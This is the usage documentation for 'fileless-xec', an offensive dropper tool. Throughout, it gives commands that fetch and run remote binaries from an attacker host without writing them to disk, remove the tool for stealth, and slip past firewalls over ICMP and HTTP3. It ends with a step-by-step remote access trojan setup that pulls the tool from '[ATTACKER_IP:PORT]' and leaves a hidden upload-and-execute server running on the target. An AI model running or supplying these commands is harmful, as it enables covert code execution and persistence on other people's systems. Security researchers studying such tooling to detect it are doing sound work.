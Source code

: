 # `fileless-xec` use cases and examples


  - [`curl | sh` for binaries](#curl--sh-for-binaries)
  - [Execute binary with stdout/stdin](#execute-binary-with-stdoutstdin)
  - [Execute binary with arguments](#execute-binary-with-arguments)
  - [`fileless-xec` self remove](#fileless-xec-self-remove)
  - [Bypass network restriction with ICMP](#bypass-network-restriction-with-icmp)
  - [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
  - ["Remote go": execute go binaries without having go installed locally](#remote-go-execute-go-binaries-without-having-go-installed-locally)
  - [Execute a shell script](#execute-a-shell-script)
  - [`fileless-xec` server mode](#fileless-xec-server-mode)
    - [RAT (Remote Access Trojan) scenarion](#rat-remote-access-trojan-scenario)
  - [`fileless-xec` on windows](#fileless-xec-on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## Bypass network restriction with ICMP

For several reasons, it is sometimes stealther to use icmp protocol (not monitored, not blocked, etc ...). In this case, fileless-xec could be used as an ICMP server to retrieve binary content before execute it. 

*Product placement: To send the binary content you should use [`QueenSono`](https://github.com/ariary/QueenSono) (icmp tools for data transfer/exfiltration)*

On target machine, launch the icmp server:
```
fileless-xec icmpserver [listening_addr]
```

On attacker machine, base64 encode the binary, and send it using `qssender` (Queensono client):
```
cat [binary] | base64 > tmp
qssender send file -d 1 -l 0.0.0.0 -r [remote_listening_addr] -s 63000 tmp
rm tmp
```


## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```


## "Remote go": execute go binaries without having go installed locally

For a better/shorter solution see [this gist](https://gist.github.com/ariary/7bd45b954657ed841c5dc9937bd3dc26)

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness or quickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)


## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

### RAT (Remote Access Trojan) scenario

fileless-xec is a dropper that make your program execution stealth. But we can go further and launch a stealth fileless-xec server (RAT), that will wait for program execution
*ie Use fileless-xec to launch a stealth fileless-xec server*
1. On attacker machine build/download fileless-xec and expose it trough HTTP server:
```
# in the same folder of fileless-xec binary
python3 -m http.server 11211
```

2. On target machine launch your stealth fileless-xec server w/ fileless-xec:
```
./fileless-xec --self-remove http://[ATTACKER_IP:PORT]/fileless-xec -- serve 11211
```

3. Now your fileless-xec is silently and patiently waiting for your program to execute it. If you want execute it, on attacker machine:
```
curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP]:11211/upload
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `fileless-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution
